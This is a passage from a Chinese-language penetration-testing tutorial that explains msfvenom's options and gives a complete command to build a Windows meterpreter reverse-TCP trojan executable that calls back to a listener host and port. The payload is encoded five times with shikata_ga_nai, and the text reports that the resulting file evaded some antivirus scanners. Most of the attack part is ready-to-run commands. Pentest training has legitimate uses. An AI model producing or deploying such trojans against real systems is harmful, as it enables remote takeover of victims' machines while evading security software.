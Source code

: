 

## 五 利用msfvenom生成木马程序

MSFvenom是Msfpayload和Msfencode的组合，将这两个工具都放在一个Framework实例中。

自2015年6月8日起，msfvenom替换了msfpayload和msfencode。

它的优点是单一,命令行,和效率，利用msfvenom生成木马程序,并在目标机上执行,在本地监听上线。

常用参数解释：

```
-p, --payload <payload> 指定需要使用的payload(攻击荷载)。
-l, --list[module_type] 列出指定模块的所有可用资源. 模块类型包括payloads/encoders,nops,all
-f, --format <format> 指定输出格式 (使用 --help-formats 来获取msf支持的输出格式列表)
-e, --encoder [encoder]   指定需要使用的encoder（编码器）
-a, --arch  <architecture>  指定payload的目标架构
--platform   <platform>  指定payload的目标平台
-x, --template   <path> 指定一个自定义的可执行文件作为模板
```

列出支持的payload

```
msfvenom -l payloads
```

列出支持的编码器

```
msfvenom -l encoders
```

列出支持的格式

```
msfvenom -l formats
```

列出某个payload的信息

```
msfvenom -p windows/meterpreter/reverse_tcp --list-options
```

使用msf生成木马

```
msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 5 LHOST=192.168.0.208 LPORT=5555 -f exe -o farmsec.exe

-p 指定payload
LHOST=192.168.0.208 LPORT=5555 配置反连的端口
-f exe 指定输出的格式为EXE格式。
-e x86/shikata_ga_nai -i 5  使用 x86/shikata_ga_nai 编码5次
-o farmsec.exe  将文件输出为farmsec.exe
```

将生成的木马传送至http://www.virscan.org 进行测试,能够发现躲过了部分杀软的查杀。
